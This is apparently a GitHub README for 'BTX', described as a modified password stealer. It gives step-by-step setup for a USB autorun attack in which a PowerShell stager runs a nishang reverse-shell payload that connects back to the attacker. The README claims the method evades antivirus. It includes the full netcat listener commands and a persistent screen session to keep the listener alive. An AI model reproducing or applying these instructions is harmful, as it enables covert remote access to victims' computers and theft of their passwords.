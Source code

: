 # BTX
This is a modified version of venom aka password stealer with added capabilities of powershell makes it faster and also helps with evading antivirus programs.

This is a two stage exploit meaning it has to be staged because it makes it easier to modify payload and if you want to add another payload to be executed 

so what we're doing is we're adding a small powershell script in our pendrive (rubber ducky) which will Execute our main powershell payload which we have on our pendrive. 

payload we're going to be hosting is payload.ps1 (powershelltcponeliner.ps1 by nishang) which will give reverse connection to the attacker machine if we set up our listner correctly.

Follow the installation procedure below 

Step 1: git clone this repo onto your pendrive which is without any subfolders 

Step 2: start the listner on your host (attacker machine)
>while true; do nc -l -p 4444; done
this will start listening on port 4444 which we'll specify in our payload.ps1 file along with the attackers IP address, this is a simple while loop which will keep our listner alive by executing it in loop
you can even start a screen session that way our listner will always be active even if we close our terminal
>screen -dmS netcat_listener bash -c 'while true; do nc -lp 4444; done'
you can view your running screen sessions with 
>screen -list
There is a screen on:
	22794.netcat_listener 	(11/01/2016 03:36:01 PM)	(Detached)
1 Socket in /var/run/screen/S-dk.

Step 3: now that you've all the things you need make your pendrive to autorun launch.bat file with USB AutoRun Creator.exe

And let the action begin